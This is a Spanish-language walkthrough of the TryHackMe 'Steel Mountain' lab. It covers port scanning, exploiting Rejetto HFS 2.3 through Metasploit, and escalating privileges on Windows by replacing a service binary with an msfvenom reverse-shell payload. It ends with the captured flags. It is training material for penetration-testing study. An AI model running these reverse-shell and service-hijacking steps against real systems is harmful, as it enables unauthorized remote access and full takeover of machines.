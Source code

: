 # Steel Mountain

Plataforma: TryHackMe
OS: Linux
Level: Easy
Status: Done
Complete: Yes
EJPT: yes
Created time: 15 de diciembre de 2024 19:06
IP: 10.10.37.44

# **Reconocimiento (Recon)**

- [ ]  **Nmap inicial**:

```bash
sudo nmap -p- --open -T5 -sS --min-rate 5000 -vvv -n -Pn 10.10.37.44 -oG allPorts

```

**Puertos Abiertos**:

80,135,139,445,3389,5985,8080,47001,49153,49155,49163,49164

![image.png](imagenes/image 20.png)

- [ ]  **Nmap serveis**

```bash
sudo nmap -sCV -p1,2,3 10.10.37.44 -oN nmap
sudo nmap -v -sV -O --script="safe and vuln" -T4 -n -Pn -p135,445 -oA nmap 10.10.37.44

```

![image.png](imagenes/image 21.png)

# **Análisis de Vulnerabilidades**

Miramos las dos paginas web.
Vemos que la web alojada en el 8080 corre:

**HttpFile Server 2.3**

- **Vulnerabilidad Potencial**: HTTPFileServer 2.3 (CVE 2014-6287)
- **Exploit Disponibles**:
    
    ```bash
    searchsploit rejetto HTTP File Server
    HTTP File Server (HFS) Unauthenticated Remote Code Execution
    
    ```
    

# **Explotación (Exploit)**

**Metasploit**:

```bash
msfconsole
search rejetto HttpFileServer
use 0
set RHOST IP
set RPORT 8080
set TARGETURI /
set LHOST localIP

```

msf6 exploit(windows/http/rejetto_hfs_exec)

![image.png](imagenes/image 22.png)

- **Resultados**: Probamos pero da error.
Cambiamos payload a : payload/windows/meterpreter/reverse_http

```bash
set PAYLOAD 73
run

```

Obtenemos shell meterpreter

# **Escalada de Privilegios**

**Enumeración de Privilegios**: Bajamos el script de Powershell, PowerUp.ps1 para enumerar el sistema

```bash
upload PowerhShell.ps1
```

![image.png](imagenes/image 23.png)

- **Vulnerabilidad Encontrada**: Servicio que se puede reiniciar
- **Método de Escalada**: Creamos con msfvenom el payload
    
    ```bash
    msfvenom -p windows/shell_reverse_tcp LHOST=10.8.49.154 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advance.exe
    ```
    

Para subirlo a :
Ruta:
C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
Nombre: AdvancedSystemCareService9

Paramos el servicio:

```bash
sc stop AdvancedSystemCareService9
```

Sobreescribimos el fichero ASCService.exe por el payload de msfvenom y renombramos

Abrimos un handler en Metasploit para recibir la consola:

```bash
msfconsole> search exploit/handler/multi
set LHOST nuestaIP
set LPORT 4443
exploit -j
sessions -i 1 'Para volver a la consola de meterpreter'

```

Reiniciamos el servicio :

```bash
sc start AdvancedSystemCareService9
'Al momento recibimos la shell del handler'
'Ponemos el terminal en background'
'volvemos a msfconsole'
sessions -i
'seleccionamos la shell que se ha creado'
session -i 2
 Obtenemos la shell con permisos de System

```

# **Post-Explotación**

Obtención de User.txt

- **Localización**:

```bash
dir root.txt /s
Directory of C:\\Users\\Administrator\\Desktop

```

- **Contenido**:

```bash
 type root.txt
 9af5f314f57607c00fd09803a587db80

```

### 5.2 Obtención de Root.txt

- **Localización**:
    
    ```bash
    dir user.txt /s
    Directory of C:\\Users\\bill\\Desktop\\
    
    ```
    
- **Contenido**:

```bash
   type user.txt
   b04763b6fcf51fcd7c13abc7db4fd365

```